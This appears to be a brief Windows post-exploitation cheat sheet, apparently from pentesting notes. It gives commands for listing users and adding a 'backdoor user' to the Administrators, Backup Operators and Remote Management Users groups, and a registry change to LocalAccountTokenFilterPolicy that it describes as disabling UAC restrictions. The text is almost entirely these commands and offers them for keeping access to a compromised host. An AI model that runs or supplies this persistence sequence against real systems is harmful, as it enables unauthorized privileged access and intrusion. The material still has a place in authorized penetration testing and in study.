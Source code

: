 List users

```cmd
net user
```

Add user to administrators.

```cmd
net localgroup administrators <username> /add
```

Add to backup users.

```cmd
Net localgroup "Backup Operators" <username> /add
```

Add to Remote Management Users

```cmd
net localgroup "Remote Management Users" <username> /add
```

If there are problems with the backdoor user you can disable UAC.

```PowerShell

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /t REG_DWORD /v LocalAccounttokenFilterPolicy /d 1
```


